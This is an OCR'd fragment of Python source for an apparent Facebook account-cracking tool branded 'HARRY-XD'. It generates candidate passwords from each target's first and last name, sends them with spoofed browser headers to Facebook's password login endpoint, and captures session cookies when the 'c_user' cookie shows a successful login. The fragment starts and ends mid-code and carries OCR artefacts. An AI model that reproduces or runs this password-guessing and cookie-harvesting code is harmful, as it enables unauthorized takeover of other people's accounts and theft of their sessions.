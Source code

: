                 exit()

        except requests.exceptions.ConnectionError:

                print('\n No internet connection ...')

                exit()
                
def ffb(ids,names,passlist):

        global loop,oks,cps

        sys.stdout.write('\r\r\033[1;37m [HARRY-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()

        session = requests.Session()

        try:

                first = names.split(' ')[0]

                try:

                        last = names.split(' ')[1]

                except:

                        last = 'Khan'

                ps = first.lower()

                ps2 = last.lower()

                for fikr in passlist:

                        pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)

                        ua=random.choice(ugen)

                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://free.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')

                        idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}

                        complete = session.post('https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)

                        HARRY=session.cookies.get_dict().keys()

                        if "c_user" in HARRY:

                                coki=session.cookies.get_dict()
